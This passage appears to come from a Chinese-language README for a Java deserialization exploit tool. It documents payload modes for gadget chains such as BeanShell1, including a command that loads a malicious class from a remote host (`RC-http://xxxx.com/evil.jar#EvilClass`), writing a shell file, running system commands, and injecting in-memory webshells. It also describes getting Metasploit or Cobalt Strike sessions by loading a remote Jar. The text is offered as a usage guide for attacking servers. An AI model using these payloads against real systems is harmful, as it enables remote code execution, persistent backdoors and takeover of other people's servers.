 本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`

与之前的扩展类似，这里也不放截图了。

对于 BeanShell1，还通过 ScriptEngineManager 执行 JS 的方式支持回显或内存马的打入。使用方式同上：`EX-`

## MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

**示例**：

![image-20220619234324295](images/image-20220619234324295.png)

# 内存马的使用

针对项目中一键打入的各种内存马，这里提供了通用的利用方式。

## 命令执行及后门类

